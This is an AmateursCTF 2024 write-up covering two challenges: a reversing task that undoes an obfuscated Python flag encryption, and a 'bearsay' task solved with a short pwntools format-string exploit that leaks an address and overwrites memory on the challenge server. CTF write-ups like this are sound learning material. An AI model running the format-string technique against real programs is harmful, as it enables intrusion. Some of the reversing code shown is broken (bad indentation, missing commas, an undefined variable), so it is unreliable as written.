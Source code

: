# AmateursCTF_2024 Writeups


Writeup for rev challenges in the event.

<!--more-->
## Overview
First time writing writeup hehe.

## typo
{{< admonition note "Challenge Information" >}}
* **Given file:** `mian.py`, `output.txt`
* **Description:** can you make sure i didn't make a typo?
{{< /admonition >}}

We are given a Python source with many obfuscated names, but upon closer inspection we notice that they are all simple encryption method that can be easily decrypted.

After renaming the variables a bit we got:

```Python
import random as RrRrRrrrRrRRrrRRrRRrrRr
seed = int('1665663c', 20)
RrRrRrrrRrRRrrRRrRRrrRr.seed(seed)
flag = bytearray(open('flag.txt', 'rb').read())
key_str = '\r'r'\r''r''\\r'r'\\r\r'r'r''r''\\r'r'r\r'r'r\\r''r'r'r''r''\\r'r'\\r\r'r'r''r''\\r'r'rr\r''\r''r''r\\'r'\r''\r''r\\\r'r'r\r''\rr'
key_array = [
    b'arRRrrRRrRRrRRrRr',
    b'aRrRrrRRrRr',
    b'arRRrrRRrRRrRr',
    b'arRRrRrRRrRr',
    b'arRRrRRrRrrRRrRR'
    b'arRRrrRRrRRRrRRrRr',
    b'arRRrrRRrRRRrRr',
    b'arRRrrRRrRRRrRr'
    b'arRrRrRrRRRrrRrrrR',
]
func_plusone = lambda param: bytearray([ele + 1 for ele in param])
func_minusone = lambda param: bytearray([ele - 1 for ele in param])

def func_swap(hex):
    for id in range(0, len(hex) - 1, 2):
        hex[id], hex[id + 1] = hex[id + 1], hex[id]
    for list in range(1, len(hex) - 1, 2):
        hex[list], hex[list + 1] = hex[list + 1], hex[list]
return hex

func_list = [func_swap, func_plusone, func_minusone]
func_list = [RrRrRrrrRrRRrrRRrRRrrRr.choice(func_list) for arRrrrRRrRRrRRRrRrRrrRr in range(128)]

def execute_func(arr, ar):
    for r in ar:
        arr = func_list[r](arr)
return arr

def func_add(arr, ar):
    ar = int(ar.hex(), 17)
    for r in arr:
        ar += int(r, 35)
return bytes.fromhex(hex(ar)[2:])

ciphertext = execute_func(flag, key_str.encode())
ciphertext = func_add(key_array, ciphertext)
print(ciphertext.hex())
```

We are also provided with the cipher text from the output.txt
ciphertext = `5915f8ba06db0a50aa2f3eee4baef82e70be1a9ac80cb59e5b9cb15a15a7f7246604a5e456ad5324167411480f893f97e3`

From the bottom up, we first subtract the cipher text with the keyarray base 35, we get the new ciphertext = `3510160288463215651882012568783508204641122149206037501475580951860016882936528922912211607208113004344284877774206570`

But here is the catch, notice that the ciphertext now is the result of integer base 17 conversion, so we need to revert it back to a base 17 bytearray, this is not complicated, but sure is very troublesome, luckily we can threw it in an online decoder so that we can get result instead of decode it manually (a good online decoder can be found here: [CyberChef](https://gchq.github.io/CyberChef/) ).

<img src="typo_1.png" alt="" width="1000"/>

And the rest can be decrypt fairly easily.

```Python
def rev_func_swap(hex):
    for id in range(1, len(hex) - 1, 2):
        hex[id], hex[id + 1] = hex[id + 1], hex[id]
    for list in range(0, len(hex) - 1, 2):
        hex[list], hex[list + 1] = hex[list + 1], hex[list]
    return hex

rev_func_list = [rev_func_swap, func_minusone, func_plusone]
rev_func_list = [RrRrRrrrRrRRrrRRrRRrrRr.choice(rev_func_list) for arRrrrRRrRRrRRRrRrRrrRr in range(128)]

def execute_func(arr, ar):
    for r in ar:
        arr = rev_func_list[r](arr)
    return arr
cipher_text = 0x486f67686960685561685568552559536660375b3a5d28625353275d676753595c6029275a712858536067602b646167
cipher_text = bytes.fromhex(hex(cipher_text)[2:])
cipher_text = bytearray(cipher_text)
print(cipher_text)
index_array = [i for i in index_array.encode()]
index_array.reverse()
flag = execute_func(cipher_text, index_array)
print(flag)
```

**amateursCTF{4t_l3ast_th15_fl4g_isn7_misspelll3d}**

## bearsay

Trying some pwn.

```Python
from pwn import *

elf = context.binary = ELF('./chall')
p = process()
p = remote('chal.amt.rs', 1338)
# gdb.attach(p, gdbscript='b*main', api=True) 

p.sendlineafter(b'say: ', b'%15$p')
p.recvline()

bss_is_mother = int(p.recvline().split()[1], 16) + 0x29cc
val = 0xBAD0BAD
payload = fmtstr_payload(22, {bss_is_mother: val}, write_size='int')
p.recvuntil(b'say: ')
print(len(payload))
print(payload)
assert len(payload) < 4096
p.sendline(payload)

p.recvuntil(b'say: ')
p.sendline( b'flag')
p.interactive()
```

**amateursCTF{bearsay_mooooooooooooooooooo?}**
